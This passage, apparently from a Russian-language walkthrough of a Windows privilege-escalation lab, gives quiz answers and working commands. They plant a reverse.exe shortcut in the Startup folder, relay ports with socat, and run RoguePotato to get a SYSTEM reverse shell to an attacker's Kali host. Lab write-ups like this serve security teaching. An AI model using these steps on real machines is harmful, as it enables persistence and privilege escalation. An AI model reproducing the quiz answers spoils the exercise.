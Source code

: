 `C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"`

Используя cscript, запустите скрипт `C:\PrivEsc\CreateShortcut.vbs`, который должен создать новый ярлык для 
исполняемого файла reverse.exe в каталоге автозагрузки:
`cscript C:\PrivEsc\CreateShortcut.vbs`

Запустите прослушиватель в Kali, а затем смоделируйте вход администратора с помощью RDP и ранее извлеченных учетных 
данных: 
`rdesktop -u admin MACHINE_IP`

Оболочка, запущенная от имени администратора, должна подключиться к вашему прослушивателю.

### Ответьте на вопросы ниже
Прочитайте и следуйте указаниям выше.
```commandline
Ответ не нужен
```
## Задание 16
Настройте редиректор socat на Kali, перенаправив порт Kali 135 на порт 9999 на Windows:

`sudo socat tcp-listen:135,reuseaddr,fork tcp:MACHINE_IP:9999`

Запустите прослушиватель на Kali. Имитируйте получение оболочки учетной записи службы, войдя в RDP как администратор,
запустив командную строку с повышенными привилегиями (щелкните правой кнопкой мыши -> Запустить от имени 
администратора) и используя PSExec64.exe для запуска исполняемого файла reverse.exe, который вы создали с 
разрешениями учетной записи «локальной службы»:

`C:\PrivEsc\PSExec64.exe -i -u "nt authority\local service" C:\PrivEsc\reverse.exe`

Запустите еще один слушатель на Kali.

Теперь в обратной оболочке «локальной службы», которую вы вызвали, запустите эксплойт RoguePotato, чтобы вызвать 
вторую обратную оболочку, работающую с привилегиями SYSTEM (соответственно обновите IP-адрес на IP-адрес вашего Kali): 

`C:\PrivEsc\RoguePotato.exe -r 10.10.10.10 -e "C:\PrivEsc\reverse.exe" -l 9999`

### Ответьте на вопросы ниже
Назовите одну привилегию пользователя, которая позволяет этому эксплойту работать.
```commandline
SeImpersonatePrivilege
```
Назовите другую привилегию пользователя, которая позволяет этому эксплойту работать.
```commandline
SeAssignPrimaryTokenPrivilege
```

## Задание 17
Запустите прослушиватель на Kali. Имитируйте получение оболочки учетной записи службы, войдя в RDP как администратор, запустив командную строку с повышенными привилегиями (щелкните правой кнопкой мыши -> Запустить от имени администратора) и используя PSExec64.exe для запуска исполняемого файла reverse.exe, который вы создали с разрешениями учетной записи «локальной службы»:
